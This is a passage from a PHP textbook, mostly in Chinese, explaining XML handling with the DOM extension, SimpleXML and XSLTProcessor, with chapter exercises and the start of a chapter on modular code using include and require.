<h1>Changing Content in an XML File with the DOM Extension</h1>
<pre>

<?php
// Load the XML file
$doc = new DOMDocument();
$doc->preserveWhiteSpace = false;
$doc->load( "./stock_list.xml" );
$doc->formatOutput = true;

// Get the stockList root element
$stockListElements = $doc->getElementsByTagName( "stockList" );
$stockList = $stockListElements->item( 0 );

// Get the "beetroot" item element
$itemElements = $doc->getElementsByTagName( "item" );
```


```php
$beetroot = $itemElements->item( 1 );

// Change the element's "type" attribute
$beetroot->setAttribute( "type", "rootVegetable" );

// Change the unit price of beetroot
if ( $child = $beetroot->firstChild ) {
    do {
        if ( $child->tagName == "unitPrice" ) {
            $child->firstChild->replaceData( 0, 10, "0.79" );
            break;
        }
    } while ( $child = $child->nextSibling );
}

// Output the XML document, encoding markup characters as needed
echo htmlspecialchars( $doc->saveXML() );

?>
</pre>
</body>
</html>
```

此脚本的开头与前一个脚本类似——它先显示 XHTML 标头，然后定位到“beetroot”条目元素。完成这一步后，它使用条目元素的 setAttribute() 方法来修改其 type 属性：

```
`$beetroot->setAttribute( "type", "rootVegetable" );`
```

接下来的几行代码修改 beetroot 元素的 unitPrice 文本节点。在此过程中，代码引入了几个新概念：DOMNode 类的 firstChild 和 nextSibling 属性。DOMDocument 中的每个节点都允许你通过 firstChild 属性访问其第一个子节点（如果没有子节点，该属性包含 null）。一旦获得第一个子节点，你可以接着使用其 nextSibling 属性来查找列表中的下一个子节点，以此类推。如果没有更多的同级节点，nextSibling 包含 null。（同样，你可以使用 previousSibling 在列表中向后移动，并使用 lastChild 获取列表中的最后一个子节点。）

因此，代码会获取 beetroot 条目元素的第一个子节点（如果有的话），并将其存储在 $child 中：

```
`if ( $child = $beetroot->firstChild ) {`
```

然后它遍历每个子节点，使用 $child->nextSibling 来获取列表中的下一个子节点。（如果没有更多子节点，nextSibling 包含 null，循环将退出。）

```php
do {
    if ( $child->tagName == "unitPrice" ) {
        $child->firstChild->replaceData( 0, 10, "0.79" );
        break;
    }
} while ( $child = $child->nextSibling );
```

对于每个子元素，代码会检查元素的 tagName 属性，直到找到所需的元素：unitPrice。找到该元素后，代码使用元素的 firstChild 属性获取 unitPrice 元素内的文本节点（你知道 unitPrice 元素只包含一个子节点：即包含价格的文本节点）。

最后，只需调用文本节点的 replaceData() 方法，即可将价格从 $1.39 改为 $0.79。replaceData() 接受三个参数：开始替换数据的字符位置、要替换的字符数量，以及用于替换数据的字符串。如果要替换的字符数量大于字符串中的字符总数，则整个字符串将被替换。因此，脚本使用值 10 来确保替换所有字符（没有哪种蔬菜的价格可能超过 $9999999.99！）。替换数据后，它的工作就完成了，因此会跳出循环。

## 移动元素

DOM 的分层性质有一个非常好的特点：你可以通过操作块顶部的节点，轻松地移动整个 XML 块。例如，以下代码使用 DOMNode 类的 insertBefore() 方法，将整个“beetroot”条目节点（及其所有后代节点）从库存列表的底部移动到顶部：

```php
<!DOCTYPE html PUBLIC "--//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
    <title>Changing Content in an XML File with the DOM Extension</title>
    <link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>
    <h1>Changing Content in an XML File with the DOM Extension</h1>
    <pre>
<?php
// Load the XML file
$doc = new DOMDocument();
$doc->preserveWhiteSpace = false;
$doc->load( "./stock_list.xml" );
$doc->formatOutput = true;
// Get the stockList root element
$stockListElements = $doc->getElementsByTagName( "stockList" );
$stockList = $stockListElements->item( 0 );
// Get the "apple" and "beetroot" item elements
$itemElements = $doc->getElementsByTagName( "item" );

$apple = $itemElements->item( 0 );
$beetroot = $itemElements->item( 1 );

// Move "beetroot" to the start of the list of items
$stockList->insertBefore( $beetroot, $apple );

// Output the XML document, encoding markup characters as needed
echo htmlspecialchars( $doc->saveXML() );

?>
</pre>
</body>
</html>
```

该脚本将“apple”和“beetroot”条目元素存储在两个变量 $apple 和 $beetroot 中。然后它调用 $stockList->insertBefore() 将 $beetroot 插入到列表中 $apple 之前。（通过插入文档树中已存在于其他位置的 DOM 节点，该节点会自动从旧位置移动到新位置。）

其他可用于移动节点的有用方法包括 appendChild() 和 removeChild() —— 本章前面已介绍 —— 以及 replaceChild()（用于用一个子节点替换另一个子节点）。

## 使用 SimpleXML 轻松处理 XML

尽管 DOM 扩展是处理 XML 文档的一种强大方式，但其庞大的类、方法和属性数量有时会让人感到压力。此外，即使是创建新子元素和在文档中定位节点这样简单的任务，编码起来也可能既繁琐又耗时。

SimpleXML 正是为此而生。此扩展提供了一种更直接的方式来操作 XML 文档中的元素。从很多方面来看，你可以将其视为“DOM Lite”。与提供 15 多个类和 100 多个方法及属性的 DOM 扩展不同，SimpleXML 只提供一个类：SimpleXMLElement。此外，与允许你深入到节点级别的 DOM 扩展不同，SimpleXML 在稍简单的元素级别工作，使元素操作过程变得更加直接。

以下是可用于操作 XML 文档的常用 SimpleXMLElement 方法列表：

| 方法 | 说明 |
|---|---|
| addAttribute( name, value ) | 向元素添加名为 `name`、值为 `value` 的属性 |
| addChild( name [, value ] ) | 向元素添加名为 `name` 的子元素。子元素可以为空，也可以包含文本 `value`。它将子元素作为新的 SimpleXMLElement 对象返回 |
| asXML( [filename] ) | 从 SimpleXMLElement 对象生成 XML 文档。如果提供了 `filename`，则将 XML 写入文件；否则将 XML 作为字符串返回 |
| attributes() | 以名=>值对的形式返回元素中所有属性的关联数组 |
| children() | 以 SimpleXMLElement 对象形式返回元素的所有子元素数组 |
| getName() | 以字符串形式返回元素的名称 |
| xpath( path ) | 查找与给定 XPath（XML Path Language）路径字符串匹配的子元素 |

此外，SimpleXML 还提供三个函数，可用于将 XML 数据导入 SimpleXMLElement 对象：

| 函数 | 说明 |
|---|---|
| simplexml_import_dom( node ) | 将提供的 DOM 节点 `node` 转换为 SimpleXMLElement 对象 |
| simplexml_load_file( filename ) | 将名为 `filename` 的 XML 文件加载为 SimpleXMLElement 对象 |
| simplexml_load_string( string ) | 将提供的 XML 字符串加载为 SimpleXMLElement 对象 |

使用 SimpleXML 时，XML 文档中的所有元素都表示为 SimpleXMLElement 对象的树。任何给定元素的子元素都可作为该元素 SimpleXMLElement 对象的属性使用。例如，如果 `$parent` 是表示带有名为 child 的子元素的元素的 SimpleXMLElement 对象，你可以直接使用以下方式访问该子元素的文本值：

```
$value = $parent->child;
```

使用 DOM 类完成同样的操作需要好几行代码。


如果您的 XML 文档包含一个元素名称，由于其中包含 PHP 变量中不允许的字符而无法表示为 PHP 属性（例如 unit-price），您可以使用花括号表示法来访问它，如下所示：

```
$value = $element->{'unit-price'};

```

您可以使用数组表示法访问元素的属性。假设一个名为 $element 的 SimpleXMLElement 对象包含一个名为 type 的属性。您可以使用以下方式访问该属性的值：

```
$value = $element['type'];

```

如果 SimpleXMLElement 对象表示带有 CDATA 节的元素，该怎么办？在这种情况下，您可以通过将对象强制转换为字符串来提取 CDATA 文本：

```
$value = (string)$element;

```

## 读取 XML 文档

以下示例展示了使用 SimpleXML 读取和显示 XML 文档内容是多么简单：

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Reading an XML File with the SimpleXML Extension</title>
<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>
<h1>Reading an XML File with the SimpleXML Extension</h1>
<pre>
<?php
// Read the XML document into a SimpleXMLElement object
$stockList = simplexml_load_file( "./stock_list.xml", "SimpleXMLElement",
LIBXML_NOCDATA );
// Display the object
echo htmlspecialchars( print_r( $stockList, true ) );
?>
</pre>
</body>
</html>

```

将脚本保存为文档根目录下的 simplexml_read_document.php（与本章前面示例中的 stock_list.xml 文件一起），然后运行它。您应该会看到类似图 19-4 的内容。


## 图 19-4

脚本首先调用 SimpleXML 函数 `simplexml_load_file()`，将 `stock_list.xml` 文件中的根元素 `stockList` 加载为 `SimpleXMLElement` 对象 `$stockList`。

您会注意到，脚本向 `simplexml_load_file()` 传递了两个额外参数。第一个参数 "SimpleXMLElement" 是要用于生成对象的类名。这允许您继承基类 `SimpleXMLElement` 来创建自定义元素类。但是，在这种情况下，脚本只是传入默认类名 "SimpleXMLElement"，以创建一个普通的 `SimpleXMLElement` 对象。这样做纯粹是为了让脚本能够传递第三个参数：`LIBXML_NOCDATA` 常量。该常量确保 SimpleXML 库读取 XML 文档的 CDATA 节，并将其转换为文本节点，以便使用后续的 `print_r()` 函数调用轻松显示。

一旦 XML 文件被读入 `SimpleXMLElement` 对象，只需使用 `print_r()` 将对象的内容输出到浏览器即可。为此，脚本还向 `print_r()` 传递了第二个参数 `true`；这样可以确保 `print_r()` 返回一个字符串，而不是直接输出到浏览器。然后脚本使用 `htmlspecialchars()` 确保字符串正确编码为 XHTML，并将生成的字符串发送到浏览器。

从输出中可以看出，`$stockList` 对象包含一个名为 `item` 的数组，其中包含 XML 文档中的两个 `item` 子元素。每个 `item` 元素本身都存储为一个 SimpleXMLElement 对象，该对象将其每个子元素的值作为属性，并将元素的属性作为关联数组存储。正是这项功能使 SimpleXML 成为读取和提取 XML 文件中数据的非常简单的方法。例如，如果您想显示甜菜根的单价，只需编写：

```
echo $StockList->item[1]->unitPrice;
```

您还可以使用强大的 xpath() 方法在 XML 文档中搜索元素。这对于在大型 XML 文件中查找特定元素非常有用，尤其是当您事先不知道元素的位置时。例如，以下代码检索甜菜根的单价，而不需要知道“beetroot”项目是 stockList 的第二个子元素：

```
$UnitPriceElement =
$StockList->xpath( "child::item[name='beetroot']/child::unitPrice" );
echo $UnitPriceElement[0];
```

传递给 xpath() 的字符串称为 XPath 字符串。将其翻译成英语，该字符串的意思是：“获取名为 item 的子元素，该元素本身包含一个值为 beetroot 的 name 子元素，然后检索 item 元素的另一个名为 unitPrice 的子元素。”这将返回一个 SimpleXMLElement 对象，表示“beetroot”项目元素内部的 unitPrice 元素，并存储在 $UnitPriceElement 中。然后只需显示 $UnitPriceElement 中的第一个数组值，即包含所需值（1.39）的文本节点。

XPath 是一种非常强大的方式，可以将任何 XML 文档中的任何节点表示为字符串，但需要一些时间来适应。您可以在 http://www.w3.org/TR/xpath 阅读完整规范。

## 创建 XML 文档

尽管 SimpleXML 非常适合读取 XML 文档，但如果您需要创建或修改 XML 文档，DOM 方法是您的最佳选择。这是因为 DOM 类允许您调整 XML 文档的每个方面；使用 SimpleXML 时，您能做的事情更有限。

尽管如此，使用 SimpleXML 创建 XML 文档完全是可行的，如下一个示例所示。此脚本创建前面示例中使用的 stock_list.xml 文件的 XML，并在浏览器窗口中显示生成的 XML：

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Creating an XML File with the SimpleXML Extension</title>
<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>
<h1>Creating an XML File with the SimpleXML Extension</h1>
<pre>
<?php
// Create the root "stockList" element
$StockList = new SimpleXMLElement( "<stockList/>" );

// Create the first "item" element (apple)
$item = $stockList->addChild( "item" );
$item->addAttribute( "type", "fruit" );

// Create the item's "name" child element
$item->addChild( "name", "apple" );

// Create the item's "unitPrice" child element
$item->addChild( "unitPrice", "0.99" );

// Create the item's "quantity" child element
$item->addChild( "quantity", "412" );

// Create the item's "description" child element
$item->addChild( "description", "Apples are &gt;&gt;&gt;&gt;yummy&lt;&lt;&lt;&lt;" );

// Create the second "item" element (beetroot)
$item = $stockList->addChild( "item" );
$item->addAttribute( "type", "vegetable" );

// Create the item's "name" child element
$item->addChild( "name", "beetroot" );

// Create the item's "unitPrice" child element
$item->addChild( "unitPrice", "1.39" );

// Create the item's "quantity" child element
$item->addChild( "quantity", "67" );

// Create the item's "description" child element
$item->addChild( "description", "Beetroots are lovely &amp; purple" );

// Output the XML document, encoding markup characters as needed
echo htmlspecialchars( $stockList->asXML() );

?>
</pre>
</body>
</html>
```

脚本首先创建 stockList 根元素：

```
$stockList = new SimpleXMLElement( "<stockList/>" );
```

它通过创建一个新的 SimpleXMLElement 对象，并传入表示元素的 XML 字符串来实现这一点。如果您愿意，可以使用此方法将整个 XML 文档加载到 SimpleXMLElement 对象中；例如：

```
$xmlString = file_get_contents( "./stock_list.xml" );
$stockList = new SimpleXMLElement( $xmlString );
```

这本质上与以下操作相同：

```
$stockList = simplexml_load_file( "./stock_list.xml" );
```

接下来，脚本调用 addChild() 和 addAttribute() 方法将各种元素添加到树中。如您所见，与本章前面展示的 DOM 等效代码相比，代码实际上非常简洁。这是因为 SimpleXML 使向元素添加子元素和属性变得非常容易。但是，您会注意到，脚本将 description 元素的内容作为文本节点创建，而不是 CDATA 节；这是因为 SimpleXML 无法创建 CDATA 节。事实上，文本元素是您可以使用 SimpleXML 添加的唯一类型的元素。

SimpleXML 的另一项限制是 asXML() 不允许您以良好的方式格式化生成的 XML 字符串，因此整个 XML 文档最终会位于一行上。为了获得更美观的格式，您需要使用 DOM 方法。

## 在 SimpleXML 和 DOM 对象之间转换

到现在您可能已经意识到，SimpleXML 非常适合（嗯）读取 XML 文档之类的简单任务，但 DOM 更适合创建和操作文档等更高级的任务。幸运的是，在 SimpleXMLElement 对象和 DOMElement 对象之间转换很容易，这意味着您可以（如果您愿意）使用 SimpleXML，然后在需要做 SimpleXML 无法完成的事情时切换到 DOM。这里的两个关键函数是：

| Function | Description |
|---|---|
| `simplexml_import_dom( node )` | 将提供的 DOM 节点 `node` 转换为 SimpleXMLElement 对象 |
| `dom_import_simplexml( element )` | 将提供的 SimpleXMLElement 对象 `element` 转换为 DOM 节点 |

例如，之前您了解到 SimpleXML 无法创建 CDATA 节；然而，DOM 类可以。因此，对于前面描述的 stockList 示例，您可以按以下方式将“apple”项目的 description 元素以及相关的“Apples are >>>yummy<<<”CDATA 节添加到 SimpleXML 文档中：

```
php
// Create the item's "description" child element
$itemDOM = dom_import_simplexml( $item );
$description = $itemDOM->ownerDocument->createElement( "description" );
$itemDOM->appendChild( $description );
$cdata = $itemDOM->ownerDocument->createCDATASection( "Apples are >>>yummy<<<" );
$description->appendChild( $cdata );
```

第一行从 $item SimpleXMLElement 对象创建一个 DOM 节点 $itemDOM（此过程会隐式创建一个 DOMDocument 对象来保存该节点）。然后，接下来的两行创建一个 $description DOMElement 节点——通过 ownerDocument 属性访问 $itemDOM 节点的 DOMDocument 对象——并将其作为子节点添加到 $itemDOM 节点。最后两行创建 CDATA 节点 $cdata，并将其追加到 $description 节点。通过在 DOM 中添加这些节点，新元素会自动添加到 $item SimpleXMLElement 对象中。


## 使用 XSL 和 XSLT

XSL（可扩展样式表语言）实际上是一组允许您将 XML 文档转换为其他格式的语言。该组中的主要语言是 XSLT（XSL 转换），这是一种让您使用一系列规则将 XML 文档中的数据转换为另一种形式的语言。这种新形式可能是另一种可由机器读取的 XML 文档，也可能是可由人读取的 XHTML 文档（即网页）。

PHP 为您提供了一个名为 XSLTProcessor 的类，您可以使用它来执行 XSLT 转换。在本节中，您将学习如何使用它将 `stock_list.xml` 文件转换为精美、可供人读取的网页。

下面是包含转换规则的 XSLT 样式表：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet
    version="1.0"
    xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
    xmlns="http://www.w3.org/1999/xhtml">

<xsl:output method="html"/>

<xsl:template match="/StockList">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
    <title>Transforming XML to XHTML</title>
    <link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>
    <h1>Stock List</h1>
    <ul style="list-style: none;">
    <xsl:apply-templates select="item" />
    </ul>
</body>
</html>
</xsl:template>

<xsl:template match="item">
    <li>
    <dl>
        <dt>Name:</dt>
        <dd><xsl:value-of select="name"/></dd>
        <dt>Quantity:</dt>
        <dd><xsl:value-of select="quantity"/> left</dd>
        <dt>Unit Price:</dt>
        <dd>$<xsl:value-of select="unitPrice"/></dd>
        <dt>Description:</dt>
        <dd><xsl:value-of select="description"/></dd>
    </dl>
    </li>
</xsl:template>

</xsl:stylesheet>
```

将此文件保存为文档根目录下的 `stock_list_to_xhtml.xslt`。

本章不深入探讨 XSLT 的方方面面——关于该主题有许多其他优秀书籍可供参考——但示例应该相当自解释。基本上，它在 XHTML 文档中创建一个无序列表（`ul`）元素，并在该元素中使用 `<xsl:apply-templates select="item" />` 显示 XML 文档中的所有 `item` 元素。

与此同时，`<xsl:template match="item">` 规则格式化每个 `item` 元素。它创建一个列表项（`li`）元素，并在其中放置一个定义列表（`dl`）元素，将 XML `item` 元素内的每个字段作为定义列表中的一项显示出来。请注意使用 `<xsl:value-of select="element" />` 显示每个 XML 元素的内容。还要注意，该规则以与 XML 文档相反的顺序显示 `quantity` 和 `unitPrice` 元素，并向最终页面添加了美元符号 ($) 等额外文本。XSLT 的灵活性正在于此。

现在您已拥有 XML 文档和用于转换它的 XSLT 样式表。您可以使用 PHP 的 `XSLTProcessor` 类将样式表应用于文档，将其转换为易于阅读的 XHTML 网页。下面是实现此目的的代码：

```php
<?php
$doc = new DOMDocument();
$proc = new XSLTProcessor();

$doc->load( "./stock_list_to_xhtml.xslt" );
$proc->importStyleSheet( $doc );

$doc->load( "./stock_list.xml" );
echo $proc->transformToXML( $doc );

?>
```

由此可见，使用 `XSLTProcessor` 非常简单。第一行创建一个新的 `DOMDocument` 对象 `$doc`，第二行创建一个新的 `XSLTProcessor` 对象 `$proc`。接下来，脚本将 XSLT 样式表加载到 `$doc` 对象中，然后使用 `XSLTProcessor` 类的 `importStyleSheet()` 方法将其导入到 `XSLTProcessor` 对象 `$proc` 中。

现在 `XSLTProcessor` 对象已加载了样式表，是时候将 `stock_list.xml` 文件加载到 `$doc` `DOMDocument` 对象中了。这会覆盖 `$doc` 对象中先前的 XSLT 样式表，但没关系，因为脚本不再需要它了。

最后，脚本调用 `$proc` 对象的 `transformToXML()` 方法，传入包含库存列表 XML 数据的 `DOMDocument` 对象。您可能已经猜到，这个方法执行实际的 XSL 转换，将样式表应用于 XML 数据以生成精美的 XHTML 页面，然后在浏览器中显示该页面。

要查看该脚本的实际效果，请将其保存为文档根目录下的 `xsl_transform.php`，并在 Web 浏览器中访问其 URL。您应该会看到一个格式精美的 XHTML 页面，类似于图 19-5。

> 如果收到 Class 'XSLTProcessor' not found 错误，则需要安装或启用 XSL 扩展。在 Ubuntu 上，请确保已安装第 2 章中列出的所有软件包。在 Windows 上，编辑您的 `php.ini` 文件，并从下一行中删除分号：

```
; extension=php_xsl.dll
```

并重启 Web 服务器。（如果您在 Mac OS X 上安装了 MAMP，XSL 扩展应该已预先安装。）


图 19-5

使用 XSLTProcessor 转换 XML 文件的基础知识就这些；不过，您还可以用此类做更多事情，包括从 XSLT 样式表中调用 PHP 函数，以及将转换生成的 XML 输出为另一个 DOMDocument 对象或文件。有关更多信息，请参阅 http://www.php.net/manual/en/class.xsltprocessor.php。

## 摘要

在本章中，您探讨了 XML 的概念，并学习了如何使用 PHP 操作 XML 文档。您学习了 XML 的基础知识，并了解了其有用之处。接着，您探讨了构成 XML 文档的各种组件，例如：

- 元素和属性，包括根元素的概念
- XML 声明和字符编码
- 文档类型定义（DTD）和 XML 架构定义（XSD）
- 其他组件，例如 CDATA 节和注释

您学习了格式良好的 XML 文档的概念，并了解了格式良好的文档需要遵循的 XML 主要语法规则。您还了解了有效的 XML 文档，它们包含 DTD 或 XSD（或对其一的引用）并可以根据其进行验证。

在学习了 XML 理论之后，您开始使用 PHP 处理 XML 文档。首先，您研究了 XML Parser 扩展，它允许您读取 XML 文档并调用您自己的函数（称为事件处理程序）来处理文档中的元素和属性。

接下来，您探索了强大的 DOM 类，可以使用它们来读取、编写和操作 XML 文档。之后，您研究了 SimpleXML，另一种 PHP 扩展，它提供了一种更易用（但功能较弱）的 XML 文档处理方式。最后，您研究了 XSL（可扩展样式表语言）的概念，并使用 PHP 的 XSLTProcessor 类通过 XSLT 样式表将 XML 文档转换为 XHTML。

本书的下一章也是最后一章将探讨一个非常重要的主题：如何编写易于处理、安全且可靠的高质量 PHP 代码。不过，在离开本章之前，请尝试以下两个练习来测试您对 XML 的理解。这些练习的解答可在附录 A 中找到。

## 练习

1. 您可能已经意识到，使用 DOM 时，通常有多种方法可以完成同一件事。重写本章中的“更改节点和属性”示例，使用 item 元素的 childNodes 属性直接访问 unitPrice 子节点，而不是使用 firstChild 和 nextSibling 进行循环。（提示：childNodes 是 DOMNodeList 类型，DOMNodeList 对象具有 length 属性，其中包含列表中的节点数。）

2. XML 的一个常见用途是生成 RSS 新闻源，然后可以由任何 RSS 感知应用程序读取，无论是在 Web 上还是在桌面上。使用 SimpleXML，编写一个简单的 RSS 阅读器 PHP 脚本，它可以读取 RSS 2.0 XML 源（例如下面的示例），并显示其内容。脚本应显示源标题、描述和最后更新日期/时间（lastBuildDate），然后显示源中所有新闻条目的列表。对于每个条目，显示标题（链接到链接 URL 以查看完整新闻）、发布日期、描述，以及描述末尾的“阅读更多 ...”链接。

```xml
<?xml version="1.0"?>
<rss version="2.0">
<channel>
    <title>Kitty News</title>
    <link>http://kitty-news.example.com/</link>
    <description>Everything you wanted to know about my cat Lucky.</description>
    <pubDate>Tue, 05 Aug 2008 09:00:00 GMT</pubDate>
    <lastBuildDate>Tue, 05 Aug 2008 13:12:18 GMT</lastBuildDate>
    <docs>http://blogs.law.harvard.edu/tech/rss/docs</docs>
    <item>
        <title>Another Mouse!</title>
        <link>http://kitty-news.example.com/another-mouse/</link>
        <description><![CDATA[Lucky caught another mouse today! She is quite the
        mouser.]]></description>


```xml
<pubDate>Mon, 04 Aug 2008 14:32:11 GMT</pubDate>
</item>
<item>
<title>A Hard Day in the Armchair</title>
<link>http://kitty-news.example.com/a-hard-day-in-the-armchair</link>
<description><![CDATA[After yesterday's frenzy of activity, Lucky
took it easy today and spent the whole day in the armchair.]]></description>
<pubDate>Sun, 03 Aug 2008 17:59:42 GMT</pubDate>
</item>
<item>
<title>A Mouse for Breakfast</title>
<link>http://kitty-news.example.com/a-mouse-for-breakfast</link>
<description><![CDATA[Clever Lucky caught a big juicy mouse for
breakfast this morning. She looks very contented right now.]]></description>
<pubDate>Sat, 02 Aug 2008 11:01:08 GMT</pubDate>
</item>
</channel>
</rss>
```

## 编写高质量代码

如果你已经学完了本书至此部分的内容，那么你对编写复杂PHP Web应用程序所需的技术已有不错的基础。恭喜！但在结束本书之前，值得看看如何编写 *高质量* 的应用程序。“高质量”一词颇具主观性，但就本书而言，它是指具备以下特质的代码：

- 易于阅读、维护和扩展
- 安全——即受到攻击防护
- 以强健且优雅的方式处理错误条件和问题
- 经过了良好的测试

随着你的Web应用程序变得越来越庞大和复杂，代码质量变得越来越重要。如果不维护严格的质量标准，大型代码库很快就会变得容易出错且难以使用。在本章中，你将学习以下质量控制技术：

- 将代码拆分为可管理、可复用的代码块
- 使用一套编码标准，使你的代码易于阅读
- 编写文档，以便其他在你的代码上工作的程序员更易读
- 验证输入并对输出进行编码，以降低代码中出现安全漏洞的风险
- 处理错误条件——即在代码运行时处理异常情况
- 清晰地将应用程序的业务逻辑与其用户界面分离
- 使用自动化测试框架来提高代码质量

读完本章后，你将具备创建强健、安全且易于你和其他程序员使用的PHP应用程序的知识，无论你的应用程序有多大或多复杂。那么，让我们开始吧！

## 编写模块化代码

在第15章中，你已经探索了模块化代码的概念——即小块的代码，可以反复重复使用。PEAR包是个很好的示例。每个PEAR包都是一个自包含的代码集合，用于执行特定任务。全球开发者已经成千上万次地使用了许多PEAR包。

编写模块化代码有许多优势，包括：

- **代码复用：** 你只需编写一次代码，然后就可以在各种PHP应用程序中多次使用它
- **易于维护：** 与其在应用程序中保留十份相同代码的副本，不如将代码保存在一个位置。如果你需要为代码添加新功能或修复bug，只需修改一份代码副本
- **可读性：** 通过将代码拆分成块，你可以使应用程序代码更易于阅读和理解
- **效率：** 与其将整个应用程序放在一个巨大的文件中——PHP引擎随后需要为每个页面视图加载并解释它——不如仅加载处理每个请求所需的代码

PHP包含一些有助于你编写模块化代码的功能，包括：

- **函数：** 在第7章中，你学习了如何将一段代码封装在函数中，然后只需从应用程序代码的其他位置调用该函数即可重用该代码
- **类：** 这一概念将代码封装更进一步，让你能在单个类中存储功能和属性。你在第8章中了解了关于类和对象的所有内容
- **include() 和 require()：** 这两个PHP函数——以及相关函数 include_once() 和 require_once() —— 允许你将一个脚本文件中的代码包含在另一个脚本文件内
- **命名空间：** 这些对于大型应用程序和库很有用。它们有助于避免同一个类名、函数名或常量名意外在不同库或应用程序不同部分中被使用的冲突

函数和类在第7章和第8章中已详细介绍。在此，你将查看 include()、require()、include_once() 和 require_once()，并学习如何使用它们来创建模块化、可复用的代码文件。你还将简要了解命名空间，并了解它们如何对大型项目有所帮助。

## 包含文件

如果你完成了前几章中的“试一试”示例，那么你可能已经熟悉 `include()`、`require()`、`include_once()` 和 `require_once()`。基本上，它们允许你将库文件中包含的代码包含在脚本文件内，就像代码已被复制并粘贴到脚本文件中一样。

下面是一个简单示例。假设你创建了一个名为 `animalSpeak()` 的简单函数，用于返回猫、狗或老鼠发出的声音：

```
function animalSpeak( $animal ) {
    $sounds = array ( "cat" => "meow", "dog" => "woof", "mouse" => "squeak" );

    if ( array_key_exists( $animal, $sounds ) ) {
        return $sounds[$animal];
    } else {
        return false;
    }
}

echo animalSpeak( "mouse" ) . "<br />"; // Displays "squeak"
echo animalSpeak( "cat" ) . "<br />"; // Displays "meow"
```

此处，函数和使用它的代码都包含在同一脚本文件中。这固然很好，但如果你想从另一个脚本或应用程序中调用 `animalSpeak()`，该怎么办？你不得不将定义 `animalSpeak()` 函数的代码从一个脚本复制粘贴到另一个脚本——显然不是最佳方法，因为你最终会得到重复的 `animalSpeak()` 版本。

这时，`include()` 函数就派上用场了。通过将 `animalSpeak()` 函数定义存储在单独的文件中，你可以使用 `include()` 从任意多个其他脚本文件中包含该函数。例如，你可以将其存储在名为 `animal_functions.php` 的文件中：

```
<?php

function animalSpeak( $animal ) {
    $sounds = array ( "cat" => "meow", "dog" => "woof", "mouse" => "squeak" );

    if ( array_key_exists( $animal, $sounds ) ) {
        return $sounds[$animal];
    } else {
        return false;
    }
}

?>
```

请注意，你需要将 `<?php` 和 `?>` 标签放在包含文件中的任何PHP代码周围。如果不这样做，包含的文件将被视为HTML标记，并直接发送到浏览器。

你可以如下从同一文件夹中的 `mouse.php` 脚本文件内使用该函数：

```
<?php
include ( "animal_functions.php" );
echo animalSpeak( "mouse" ) . "<br />"; // Displays "squeak";
?>
```

然后你可以在 `cat.php` 脚本文件内使用相同的函数：

```
<?php
include ( "animal_functions.php" );
echo animalSpeak( "cat" ) . "<br />"; // Displays "meow";
?>
```

与 include() 关系密切的是 require()，它的作用大致相同：

```
<?php
require ( "animal_functions.php" );
echo animalSpeak( "cat" ) . "<br />"; // Displays "meow";
?>
```

唯一的区别是，如果要包含的文件找不到，include() 仅会引发PHP警告，而 require() 则会引发致命错误并停止运行脚本。如果要包含对应用程序运行至关重要的库文件，请使用 require()。

## 仅包含文件一次

使用 include() 或 require() 包含文件的文件本身可以被包含在另一个文件中——这一过程称为嵌套包含。例如，先前的 `mouse.php` 和 `cat.php` 文件（它们本身包含 animal_functions.php 文件）可能会被包含在更高级别的 `display_animal_sounds.php` 脚本中，如下所示：

```
<?php
require ( "mouse.php" );
require ( "cat.php" );
?>
```

不过，运行此脚本会生成以下致命错误：

```
Cannot redeclare animalspeak() (previously declared in animal_functions
.php:3) in animal_functions.php on line 11
```

是什么导致了这个错误？首先，`display_animal_sounds.php` 包含 `mouse.php`。该文件反过来包含 `animal_functions.php`，从而定义了 `animalSpeak()` 函数。接下来，`display_animal_sounds.php` 包含 `cat.php`。该文件也包含 `animal_functions.php`，再次尝试定义 `animalSpeak()`。因为一个函数只能定义一次，所以会触发错误。

当你开始构建具有大量嵌套包含的大型应用程序时，这是一种非常常见的情况。要解决这个问题，请使用 PHP 的 `include_once()` 和 `require_once()` 函数。它们与各自的 `include()` 和 `require()` 对照物的工作方式相同，只是仅包含指定的文件


在当前脚本执行期间只包含一次。如果您再次调用 `include_once()` 或 `require_once()` 来包含同一文件，则不会发生任何事情。

因此，可以通过对 `mouse.php` 和 `cat.php` 文件进行一些小调整来解决之前的问题：

```
mouse.php:

<?php
include_once( "animal_functions.php" );
echo animalSpeak( "mouse" ) . "<br />"; // Displays "squeak";
?>
```

```
cat.php:

<?php
include_once( "animal_functions.php" );
echo animalSpeak( "cat" ) . "<br />"; // Displays "meow";
?>
```

现在，`animal_functions.php` 将只被包含一次（在 `mouse.php` 中），因此 `animalSpeak()` 函数将只被声明一次。`display_animal_sounds.php` 脚本现在将正确运行，显示以下输出：

- squeak
- meow

## 使用包含路径

在处理大型应用程序时，另一个问题是跟踪要包含的文件的位置。假设您已将所有通用库代码（包括 `animal_functions.php`）组织到位于 `/home/joe/lib` 的中心文件夹中。您在 `/home/joe/htdocs` 中有一个网站，其文档根目录包含之前所示的 `mouse.php` 文件。`mouse.php` 如何引用 `animal_functions.php`？它可以使用绝对路径：

```
include_once( "/home/joe/lib/animal_functions.php" );
```

或者，它可以使用相对路径：

```
include_once( "../lib/animal_functions.php" );
```

这两种方法都可行，但生成的代码可移植性不高。例如，假设网站需要部署到不同的 Web 服务器上，其中库代码存储在 `/usr/lib/joe` 文件夹中。每一行包含 `animal_functions.php`（或任何其他库文件）的代码都需要使用新路径进行更新：

```
include_once( "/usr/lib/joe/animal_functions.php" );
```

